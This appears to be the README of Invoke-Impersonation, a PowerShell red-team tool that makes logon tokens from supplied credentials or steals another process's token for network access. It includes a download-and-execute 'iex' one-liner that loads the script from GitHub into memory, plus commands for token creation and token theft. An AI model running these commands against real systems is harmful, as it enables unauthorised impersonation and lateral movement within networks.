 # Invoke-Impersonation
Make a Token (local admin rights not required) or Steal the Token of the specified Process ID (local admin rights required)

### Note:

The logon session created has the same local identifier as the caller. If you run commands that access local resources (like whoami), they will appear to be run under the original user context. 

This is because, locally, nothing has changed. The LUID is the same as the caller, so it appears as though you're still the original user.

However, the alternate credentials are used when accessing a remote resource.

This logon type is designed specifically for cases where you need to specify alternate credentials for outbound network connections, without affecting the local user context. 

This also means that the created token is not applicable to anything you may want to run on the current machine.

Use `rev2self` to drop any impersonation that may be in play.

### Load in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-Impersonation/main/Invoke-Impersonation.ps1')
```

### Make a token
```
Invoke-Impersonation -MakeToken -Username "Administrator" -Domain "ferrari.local" -Password "P@ssw0rd!"
```

### Steal a token
```
Invoke-Impersonation -Steal -ProcessID 5380
```

### Rev2Self
```
Invoke-Impersonation -RevertToSelf
```

![image](https://github.com/Leo4j/Invoke-Impersonation/assets/61951374/8a16bca9-b214-4e76-ba0e-b577585e9185)

![image](https://github.com/Leo4j/Invoke-Impersonation/assets/61951374/12025262-07fa-4df4-9c77-dc9d2f6bcc34)

